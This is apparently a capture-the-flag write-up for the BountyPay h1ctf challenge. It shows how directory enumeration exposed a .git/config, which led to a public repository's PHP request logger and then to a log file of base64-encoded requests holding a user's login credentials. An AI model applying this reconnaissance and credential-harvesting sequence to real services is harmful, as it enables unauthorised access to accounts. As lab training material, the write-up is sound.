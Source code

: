 
## Steps To Reproduce:

### 1. Source code leak on app.bountypay.h1ctf.com => user credentials

Performing directory enumeration on that subdomain revealed that the server returns status code 403 instead of 404 for every directory with the string `*git` (e.g. `.git`, `cgit`,...). 

Requesting `https://app.bountypay.h1ctf.com/.git/config` returns the following result:

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

Trying to access that repository on github succeeds. The repository contains a single PHP file, `logger.php`:

```
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Next, I tried to access `/bp_web_trace.log`, which contains the following data:

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```
